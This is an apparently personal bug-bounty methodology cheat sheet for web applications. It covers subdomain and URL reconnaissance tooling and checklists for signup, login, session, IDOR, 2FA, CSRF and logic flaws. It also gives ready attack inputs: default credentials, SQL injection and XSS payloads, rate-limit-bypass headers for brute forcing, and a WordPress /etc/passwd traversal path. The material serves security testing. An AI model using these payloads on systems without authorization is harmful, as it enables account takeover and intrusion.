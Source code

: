 <details>
 <summary> Subdomain enumeration </summary>
    
     https://securitytrails.com/
    
    https://subdomainfinder.c99.nl/
    
    https://shrewdeye.app/ 
    
    
    # subfinder -d ~~mars.com~~ -all --recursive  -o subs.txt
  
    
   
    # echo ~~mars.com~~ | assetfinder --subs-only >> subs.txt
    
    
    after collecting all subdomains in subs.txt then let's remove duplicate 
    # cat subs.txt | anew >> allsubs.txt
    # rm subs.txt
</details>

-----------------------------------------------------------------------------

<details> 
## <summary>signup vulnerabilities</summary>
    
    0- check in login page or register page http or https 
    (insecure data transfer ) 
    
    1- if there is no verification code or confirmation then 
    signup with admin@~~site.com~~ and report pre-account takeover vulnerability 
    
    2- a- create account with hacker@gmail.com for example 
    	 b- confirmation will reach you 
    	 c- don't click on it 
    	 d- login to your account and change the email to victim@gmail.com 
    	 e- go back the link in step b and click on it 
    	 f- if the victim@gmail.com was verified successfully then 
    	 (misconfiguration lead to verification bypass  vulnerability) 
    
    3- while registertion put xss payloads inside username , name ....
    
    4- create account with victim@gmail.com 
    	- don't verify the account and don't click on verification link 
    	- login to the site if you can 
    	- go to settings and see if there is 2 factor authentication 
    	- enable 2 factor authentication without confirming account 
    	- report vulenrability (enable 2fa without confirmaiton lead to pre-account tkaeover)
    
    5- create account with victim@gmail.com ,  don't click on the link
    	- login to victim@gmail.com 
    	- change the email address to hacker@gmail.com 
    	- click on confimation link send to your email hacker@gmail.com 
    	- go back and change email to victim@gmail.com and observe it was verified succcessfully
    	(verification bypass )
    	 
</details>

-----------------------------------------------------------------------------


<details>
## <summary>login vulnerabilities </summary>

	 1- login over http not https 	( insecure data transfer )
	
	 3- try default credentials (test:test) (admin:admin) (admin:password) (kali:kali) (admin:123)
	  (admin:default) (root:root) (root:toor) (admin:kali) (kali:root) (admin:123456789)
	
	 4- try to inject sql injection in username as admin' or 1=1; -- -
	
	 5- try to make response manipulation  to bypass login page
	
	 6- use the request and send it to sqlmap to test if there is sql injection or not
	
	 7- try to inject xss payloads in username as <svg/onload=confirm()>
	
	 8- try to inject template injection inside username as {{9*9}} and if printed 81 then vulnerable to template injection
	
	 9- view source code of the page from CTRL+U to see if leaked credentials

 </details>

-----------------------------------------------------------------------------



  <details>
## <summary>reset password vulnerabilities</summary>
    
    check link of reset password in email if http not https
    check reset request code can be leaked in request or response
    no rate limit (Email bombing)
    ------------------------------------
    1- ask reset password (from out) don’t press on it ⇒ 
    2- login to account ⇒ change the email and verify ⇒ click on reset link
    3- if password changed through reset password link (bug)
     -----------------------------------
    1- ask reset password (from out) don’t press on it ⇒
    2- login to account ⇒ change the password ⇒
    3- click on reset link ⇒ if password changed through reset password link (bug)
    --------------------------------------
    1- reset the password or ask for reset code  
    2- don't click or reload the page but go to /profile or /account
     directly and see if you can access
     -------------------------------------
     brute force otp 
     --------------------------------------
     reset password does not end live sessions 
</details>

-----------------------------------------------------------------------------


<details>
## <summary>session vulnerabilities</summary>
  	
	1- login to your account with firefox and chrome
		- change the password in firefox 
		- observe the account in chrome is still logged in and didn't logout
		- Broken session Management 
	
	2- login to your account with firefox and chrome 
		- enable 2FA in firefox 
		- reload the page in chrome and observe session is still valid 
	
	3- login to your account and update anything 
		-  intercept the request with burpsuite 
		- send the request to repeater
		- logout from your account 
		- use the request in repater to update and if still valid  (vulnerability)
	
	4- ask for reset password 
		- don't click on the link reached you 
		- login with your username and password 
		- change the password of the email 
		- logout from your account and then use the link in step 1 
		- if still valid then (Vulnerability)
	
	5-logout from your account 
		- click on (Alt+Left-arrow) button or <--
		- observe the session and profile data is still found 
		- broken cache vulnerability
	
	6- when updating email address 
		- check if OTP is sent to existing email not the new email 
		- broken function lead to verification bypass
	
	7- create account with email A => victim 
		- update the email to B => hacker then verify it -> vierfy your account 
		- update email back to A => victim 
		- if shown as verified then vulnerability 
	
	8- verifiaction bypass 
		- account with victim@gmail.com => don't verify it 
		- update account email to hacker@gmail.com
		- once you clicked the link , if verified victim@gmail.com then vuln  
	
</details>

-----------------------------------------------------------------------------


<details>
	<summary>IDOR</summary>
	
    1- Look for id everywhere
    
    2- Play with hash/encoded values
    
    3- Change The ID's in the request 
    
    4- Upload the profile photo for another user
    
    5- Try change/View data of another user
    
    6- Do something with your email then change it in Burp

    7- Add parameter IDs to requests that don’t have them 

    8- Try replacing parameter names

    9- Try changing the requested file type 
    	GET /user_data/2341 --> 401 Unauthorized
	GET /user_data/2341.json --> 200 OK
    
    10- Try using an array {“id”:19} → {“id”:[19]}

    11- Wildcard ID /api/users/*

    12- check for session cookies if has httponly flag

    13- use the inspector of Burp Repeater to play with id's

    14- use https://jwt.io

    15- create two accounts and save both jwt data and try change between them

    16- detect each cookie and see where it being used

    17- Gather POST & GET and test every CRUD

    18- 

 
  
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Broken Access Control</summary>

	1- Test some Graphql operations with different user roles and see what this operation do
 	2- Check the role of every user and try upgrade your role by urself
  	3- try any unauth behavior like :
   		- member delete admin
     		- member send invites using the invite request
       		- member outside the comapny try any action 
	 	- 
 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>RCE</summary>

	1- Injection in json file 
 		{
   		   "username":" `touch ayfile.txt` ",
		   "password":"test"
		}
  	We establish a connection using ntcat then inject command in the json to get this connection
     --------------------------------------------------------------------------------------------------
     2- 

     
</details>

-----------------------------------------------------------------------------


<details>
	<summary>Logic Bugs</summary>
	
    1- Try change the price or quantity of item
    
    2- Multiple booking for one room
    
    3- Place order without verify stock level
    
    4- Use coupons or bounus more than one time
    
    5- Check the difference bettween Front-end & Burp request
    
    6- Try creating more than one from the same block 

    7- Check for all posible IF statements and try to bypass it

    8- A user gains access to restricted features they shouldn't have access to.

    9- Try access files after deletion using the link of this file 

    10- Make changes in the source code disabled -> enabled / hidden -> flex

    11- Delete comment with report https://shahjerry33.medium.com/business-logic-errors-a-new-look-3b18d9c2a12f

    12- 
      
		
</details>

-----------------------------------------------------------------------------


<details>
	<summary>Race Condition</summary>

    1- 
 
</details>

-----------------------------------------------------------------------------


<details>
	<summary>Rate Limit</summary>

 	rate limit 
	1- no rate limit on login page 
	2- no rate limit on internal password
	3- no rate limit on sending reset password link 
	4- no rate limit on OTP or 2FA => account takeover
	5- no rate limit on contact us page 
	6- no rate limit on comments 
	7- no rate limit on reports of comments
	8- no rate limit on port 22
 	9- no rate limit on create users account lead to massive accounts created
	
	------------
	bypass rate limit by adding headers 
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Origination-IP: 127.0.0.1 or 0.0.0.0
	X-Fowarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	------------------------------------------
	POST /login.php HTTP/1.1
	Host: target.com
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Origination-IP: 127.0.0.1 or 0.0.0.0
	X-Fowarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	
	username=admin&password=$fuzz$
	-------------------------------------------
	429 => 403 
	bypass rate limit 
	
	ffuf -u https://example.com -w wordlist.txt --data "username=admin&password=FUZZ"  -H "X-Forwarded-For: 127.0.0.1" -H "X-Forwarded-For: 127.0.0.1"`
	
	403 


</details>

-----------------------------------------------------------------------------


<details>
## <summary>hacking WordPress</summary>
    
    
    wpscan --url [https://target.com](https://target.com/) --disable-tls-checks --api-token zBsi404GGCMKGzTraiEsSsQsFXCsUVWmaDUsn3EPuKc -e at -e ap -e u --enumerate ap --plugins-detection aggressive --force
    wordpress usernames exposure :
    /wp-json/wp/v2/users
    /author-sitemap.xml
    /wp-content/debug.log
    /wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
    	
    /wp-login.php?action=register
    /wp-json/?rest_route=/wp/v2/users/
    /wp-json/?rest_route=/wp/v2/users/n

</details>

-----------------------------------------------------------------------------


<details>
## <summary>Javascript Analysis</summary>
    
    1- use mantra to get api , passwords , keys ...
     cat js.txt | mantra  | tee -a mantra.txt
    2- use nuclei to search for secrets 
     nuclei -l js.txt -t nuclei-templates/http/exposures/ -o nucleijs.txt
    
    if found google api key then use tool google.sh  and see if api valid or not
    google.sh AIz.............

	
 	- wayback
	- gospider
	- katana
	=> allurls.txt
	
	1- Use Mantra => for api keys
	
	2- Use jsluice => for secrets and urls =>  jsluice urls player.js
						     jsluice secrets player.js
	 for i in $(ls);do jsluice secrets $i;done
	
	3- Use nuclei  => nuclei-tempates/http/exposures/
	 nuclei -l js.txt -t /root/nuclei-templates/http/exposures/ -mhe 4
	4- analyze the code with js beaty in visual studio code 


</details>

-----------------------------------------------------------------------------


<details>
	<summary>PHP</summary>
</details>

-----------------------------------------------------------------------------


<details>
	<summary>2FA</summary>
			
		1- check 000000 - 123456
		2- check null 
		3- reuse previous OTP	(used one )
		4- reuse code of another account (valid)
		5- No rate limit on 2FA	=>> 
		6- check if exposed code in response
		7- bypass it by reset password link
			- enable 2fa 
			-  logout 
			- reset password => then click on the link 
			- if you got into directly then vulnerability 
		
		8- bypass it by 0-auth google 	=> 2fa 
			1- login 
			2- enable 2fa 
			3- login with google => if you got into directly then (vulnerability) 
		
		9- No rate limit on sending 2FA 
		10- response manipulation => 403 Forbidden => 200 OK 
						false 	=> true
						0	=> 1
						failed 	=> successful 
		11- bypass 2fa by the next step 
		
		12- enable 2fa without email verification lead to pre-account takeover
		13- enabling 2fa does not end another sessions 
		change password 
	
</details>

-----------------------------------------------------------------------------



<details>
<summary>  Subdomain takeover </summary>
    
    # subzy run --targets subs.txt --hide_fails --vuln  | grep -v -E "Akamai|xyz|available|\-"
    if you found any vulnerability then search on how to takeover subdomain 
</details>
    
-----------------------------------------------------------------------------


  <details>       
## <summary>httpx</summary>
    
    to see the working sites 
    # cat allsubs.txt | httpx -o httpx.txt
    # cat httpx.txt | httpx -mc 200 -o httpx200.txt    
    1- use smuggler to check request smuggling vulnerablitiy 
    # cat httpx.txt | smuggler.py | tee -a smuggler.txt
</details>

-----------------------------------------------------------------------------


<details>
## <summary>dirsearch and ffuf</summary>
    
    1- if you need to fuzz all the file of urls httpx.txt
    # dirsearch -l $(pwd)/httpx.txt -i 200  -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,http://sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js.,.json
    2- if you need to fuzz specific site 
    # dirsearch -u ~~https://mars.com~~  -i 200  -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,http://sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js.,.json
    3- you can use ffuf and wordlist of file names from google 
    # ffuf -u ~~https://mars.com~~/FUZZ -w ~~wordlist.txt~~  -mc 200 
    
    advanced mode of ffuf to bypass rate limit and firewall
    # ffuf -u ~~https://mars.com~~/FUZZ -w wordlist.txt -H "X-Forwarded-For: 127.0.0.1"
    -H "X-Forwarded-Host: 127.0.0.1" 
    
    to fuzz in two places with two files 
    # ffuf -u https://mars.com/FUZZ/AGAIN  -w list1.txt:FUZZ  -w list2.txt:AGAIN
</details>

-----------------------------------------------------------------------------


<details>
## <summary>Gather urls</summary>
    
    1- gather urls with katana
    # katana -list httpx.txt -o katana.txt
    2- gather urls with waybackurls
    # cat httpx.txt | waybackurls >> wayback.txt
    3-  use gospider 
    # gospider -S httpx.txt | sed -n 's/.*\(https:\/\/[^ ]*\)]*.*/\1/p' >> gospider.txt
    4- gather all files in one file and remove duplicate 
    # cat katana.txt wayback.txt gospider.txt >> urls.txt
    5- remove duplicate with anew 
    # cat urls.txt | anew >> allurls.txt 
    # rm urls.txt
    6- get javascript files in js.txt
    # cat allurls.txt | grep -E "\.js" >> js.txt
    7- get php files in php.txt
    # cat allurls.txt | grep -E "\.php$" >> php.txt
 </details>   
    	

-----------------------------------------------------------------------------



<details>
## <summary>check sql injection in php</summary>
    
    1- first let's gather parameters 
    # arjun -i php.txt | tee -a parameters.txt
    2- after knowing parameters like id then full url would be 
    https://example.com/file.php?id=*
    3- use sqlmap 
    # sqlmap -u "~~https://example.com/file.php?id=*~~" --dbs --banner --batch --random-agent
    
 </details>   


-----------------------------------------------------------------------------


    
<details>
## <summary>SQLI</summary>

    id = 1'XOR(if(now()=sysdate(),sleep(2*2),0))OR'

</details>


-----------------------------------------------------------------------------

<details>
	<summary>XSS</summary>

 
	
	dalfox url "https://target.com/?q=search" -o dalfox_xss.txt
	dalfox file allParam.txt --waf-evasion --user-agent 'Mozilla/5.0 (x11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 			Safari/537.36' --proxy 'http://127.0.0.1:8080' --timeout 30 -b 'payload from xss.report' -o xssProbability.txt --deep-domxss 
	
	
	
	
	paramspider --domain domain.com
	paramspider --domain https://www.domain.com --exclude woff,css,png,svg,jpg --output t.txt
	
	echo "sub.domain.com" | waybackurls | httpx -silent | Gxss -c 100 -p Xss | sort -u | dalfox pipe
	
	
	cat domain.txt | kxss | grep "\" ' < >" | tee kxss.txt
	
	cat domain.txt | kxss


	Double Decode :
 		%2527%2520onmouseover%253D%2527alert%25281%2529%2527%2520
   		%2527%2520onfocus%253D%2527alert%25281%2529%2527%2520autofocus%253D%2527
     		%2527%2520onfocus%253D%2527alert%25281%2529%2527%2520
       		%2527%253E%253Cscript%253Ealert%25281%2529%253C%252Fscript%253E
   		
    
</details>

-----------------------------------------------------------------------------

<details>
	<summary>CSRF</summary>

	Generate POC using LazyCSRF in BurpSuite
	=================================================
	FIRST SCENARIO: 
  	1- Login as Attacker and intercept any function like change email, pass, logout...etc
   	2- Genereate CSRF poc with that reqeust
    	3- login as Victim in another browser
     	4- open the CSRF poc in victim browser if did the function then it's a bug
  	
   	=================================================
	SECOND SCENARIO: The Token is tied to non-session cookie
 		if the token tied to an attribute in the request 
 	1- intercept the request of user1 change email,username..etc
  	2- Genrate POC 
   	3- get the CSRF key and attribute value of user2
    	4- 

    	=================================================
   	- Remove the token and leave the parameter empty
  	- Try use another user CSRF token
   	- Change the request method to get and remove the token
    	- Add Ayhaga to the real CSRF token 
     	- Dynamic chars in CSRF token manipulate
	- try delete referrer
 	- Referrer: https://target.com/https://evil.com
  	

 
</details>



